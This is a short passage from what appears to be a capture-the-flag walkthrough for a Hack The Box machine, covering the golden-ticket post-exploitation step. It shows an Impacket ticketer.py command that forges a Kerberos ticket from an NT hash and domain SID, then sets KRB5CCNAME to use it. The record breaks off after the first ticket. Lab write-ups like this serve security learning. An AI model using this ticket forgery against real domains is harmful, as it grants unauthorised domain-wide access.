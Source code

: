 
## Post Exploitation - Golden ticket 

- [Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

![](./IMG/61.png)

> Step 

1. Create TGT and set up environment 

> This step I execute it twice, first is create a ticket name nonexist, the other is create an administrator 

- nonexist ticket
```
python ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local nonexist
```

![](./IMG/63.png)

```
export KRB5CCNAME=nonexist.ccache
```
